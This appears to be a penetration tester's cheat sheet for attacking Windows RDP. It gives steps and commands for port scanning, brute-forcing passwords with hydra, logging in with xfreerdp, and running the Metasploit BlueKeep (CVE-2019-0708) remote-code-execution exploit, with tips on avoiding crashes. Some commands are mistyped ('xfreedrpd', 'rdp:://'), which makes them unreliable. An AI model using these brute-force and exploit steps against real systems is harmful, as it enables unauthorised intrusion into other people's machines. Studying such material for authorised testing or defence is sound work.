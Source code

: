 
TCP port 3389 - check all ports on target, companies change it around a lot for RDP

Requires legitimate credentials to utilize


Authentication
=
- requires user account on target system
- requires users password in clear-txt on the system


Methodology
=
**Gaining credentials and authentication:**
1. scan for RDP with nmap, if weird ports pop up but no RDP, use RDP scanner in `aux/scanner/rdp/rdp_scanner` in msf, companies may have changed ports around
2. Bruteforce RDP with hydra
3. authenticate with xfreerdp

**BlueKeep (kernel memory exploit):**
1. scan system with nmap for RDP
2. use `aux/scanner/rdp/cve_2019_0708_bluekeep` on msf to check target vulnerability
3. use `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` if vuln (only works on 64 bit)
	1. need to manually set windows version `show targets`
	2. if target system is crashing adjust CHUNK grooming size


Metasploit
=
scanning for RDP on particular port:
use `aux/scanner/rdp/rdp_scanner`
	setup
	run


BruteForce
=
`hydra -L userlist.lst -P passlist.lst host_ip rdp -s port` - be careful of dosing the server, may need to reduce task to much lower, default is 16, try 2/3 if issues arise 
	rdp:://ip -s port - alternative


Xfreerdp
=
usage: `xfreedrpd /u:username /p:password /v:target_ip:port`


BlueKeep
=
no official proof of concepts
kernel memory exploit
can crash target
use metasploit for administrative pwn
